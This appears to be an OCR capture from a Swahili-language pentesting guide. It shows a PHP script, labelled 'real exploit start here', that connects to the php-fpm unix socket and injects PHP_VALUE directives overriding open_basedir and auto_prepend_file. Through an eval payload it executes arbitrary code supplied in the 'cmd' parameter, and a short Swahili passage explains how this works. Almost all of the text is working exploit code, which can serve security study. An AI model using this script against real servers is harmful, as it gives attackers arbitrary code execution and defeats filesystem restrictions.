 ```php
case self::CANT_MPX_CONN:
throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
break;
case self::OVERLOADED:
throw new Exception('New request rejected; too busy [OVERLOADED]');
break;
case self::UNKNOWN_ROLE:
throw new Exception('Role value not known [UNKNOWN_ROLE]');
break;
case self::REQUEST_COMPLETE:
return $response;
}
}
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
$filepath = __FILE__;
}else{
$filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
'GATEWAY_INTERFACE' => 'FastCGI/1.0',
'REQUEST_METHOD'    => 'POST',
'SCRIPT_FILENAME'   => $filepath,
'SCRIPT_NAME'       => $req,
'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
'REQUEST_URI'       => $uri,
'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
'PHP_VALUE'         => $php_value,
'SERVER_SOFTWARE'   => '80sec/wofeiwo',
'REMOTE_ADDR'       => '127.0.0.1',
'REMOTE_PORT'       => '9985',
'SERVER_ADDR'       => '127.0.0.1',
'SERVER_PORT'       => '80',
'SERVER_NAME'       => 'localhost',
'SERVER_PROTOCOL'   => 'HTTP/1.1',
'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```
Hizi skripti zitawasiliana na **unix socket ya php-fpm** (kawaida iko katika /var/run ikiwa fpm inatumika) ili kutekeleza msimbo wa kiholela. Mipangilio ya `open_basedir` itabadilishwa na sifa ya **PHP_VALUE** ambayo inatumwa.\
Kumbuka jinsi `eval` inavyotumika kutekeleza msimbo wa PHP unayotuma ndani ya parameter ya **cmd**.\